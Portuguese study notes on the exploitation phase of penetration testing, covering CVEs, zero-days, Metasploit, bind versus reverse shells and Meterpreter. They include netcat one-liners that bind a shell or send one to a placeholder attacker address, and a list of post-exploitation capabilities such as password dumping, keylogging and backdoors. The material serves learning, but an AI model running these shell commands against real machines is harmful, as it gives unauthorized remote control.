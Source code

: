 # Explotation

Explora as vunerabilidade encontradas, enviando um playload para a máquina alvo.
- Priorizamos a exploração pela criticidade das vunerabilidades
- Um playload pode ser um programa ou uma shell
  - A shell conecta a máquina alvo permite executar comandos na máquiona alvo

Algumas vezes não são encontradas vunerabilidades que possam ser exploradas. Cintudo, isso não indica que não possam ocorres ataques exitosos. Nesses casos, o playload é carregado através de engenharia social.


**Sobre vunerabilidades:**
- CVE (Common Vulnerabilities and Exposures)
  - referência universal para que fabricantes, pesquisadores e empresas falem a mesma “língua” quando tratam de vulnerabilidades.
  - Formato: CVE-ANO-NÚMERO
    - Exemplo: CVE-2017-0144 (EternalBlue, usado no ataque WannaCry).
- Zero-day vulnerability: falha de segurança desconhecida pelo fabricante ou pela comunidade de segurança.
  - Não documentada publicamente – não existe CVE ou alerta oficial ainda.
  - Não tem correção – os fabricantes e usuários não podem se proteger com patch.
  - Alvo preferido de cibercriminosos e governos – porque é extremamente difícil de detectar e defender.
  - Alto valor de mercado – exploits 0-day podem ser vendidos em mercados clandestinos (ou até mesmo para agências governamentais).
  - Zero-day exploit: é o código ou técnica que explora essa falha antes que exista um patch/correção disponível.
- A vunerabilidade nem sempre é técnica, pode ser também pessoas que utilizem uma rede.
  - A maioria dos ataques são de exploração de vunerabilidades de pessoas.

A principal ferramenta utilizada durante o explotation é o **metasploit framework**.

## Reverse Shell e Bind Shell

### **Bind Shell**

* O atacante faz com que a máquina-alvo **abra uma porta e “escute” conexões externas**.
* O atacante então se conecta diretamente a essa porta para obter acesso.
* **Fluxo:**
  * Vítima → abre porta (servidor)
  * Atacante → conecta na porta (cliente)
* Exemplo:
```
# Na vítima
nc -lvp 4444 -e /bin/bash   # abre uma shell e espera conexão

# No atacante
nc <IP_da_vítima> 4444
```

### **Reverse Shell**

* Ao invés de escutar, a vítima **abre uma conexão de saída** para o atacante.
* Muito usado em ambientes protegidos por firewall, onde a máquina não aceita conexões externas, mas **pode sair para fora (outbound)**.
* **Fluxo:**
  * Atacante → escuta em uma porta
  * Vítima → conecta no atacante e envia a shell
* Exemplo:
```
# No atacante
nc -lvp 4444   # escuta esperando a shell

# Na vítima
nc <IP_do_atacante> 4444 -e /bin/bash
```

### Comparação

| Característica      | Bind Shell 🖥️➡️    | Reverse Shell ⬅️🖥️                |
| ------------------- | ------------------- | ---------------------------------- |
| Quem abre a porta?  | Vítima (servidor)   | Atacante (servidor)                |
| Quem conecta?       | Atacante            | Vítima                             |
| Mais fácil em…      | Rede sem firewall   | Rede com firewall (saída liberada) |
| Risco para atacante | IP e porta expostos | Atacante fica oculto (escutando)   |

## Meterpreter

O **Meterpreter** é um **payload avançado** do Metasploit Framework.
* Fornece ao atacante uma **shell interativa**, carregada inteiramente **na memória** (sem gravar nada em disco, o que ajuda a evitar antivírus).
* Diferente de um shell simples, o Meterpreter tem **diversos comandos extras** para pós-exploração.
👉 Em resumo: o Meterpreter é **o “canivete suíço” do pentester dentro da máquina comprometida**.

**Características principais:**

1. **Carregado em memória** → não deixa rastros no disco.
2. **Modular** → você pode carregar/extender funções conforme necessário.
3. **Comunicação criptografada** → dificulta detecção.
4. **Invisibilidade** → roda como parte de um processo existente da vítima.

**O que dá para fazer com Meterpreter:**

* **Controle remoto da máquina**:
  * Executar comandos do sistema.
  * Explorar o sistema de arquivos (upload/download).
* **Coleta de informações**:
  * Hashdump (pegar senhas).
  * Informações de rede e processos.
* **Monitoramento**:
  * Keylogger.
  * Captura de tela (*screenshot*).
  * Webcam snap (foto pela câmera).
* **Movimentação lateral**:
  * Pivoting (usar a máquina comprometida como ponte para atacar outras).
* **Persistência**:
  * Criar backdoors para manter acesso.
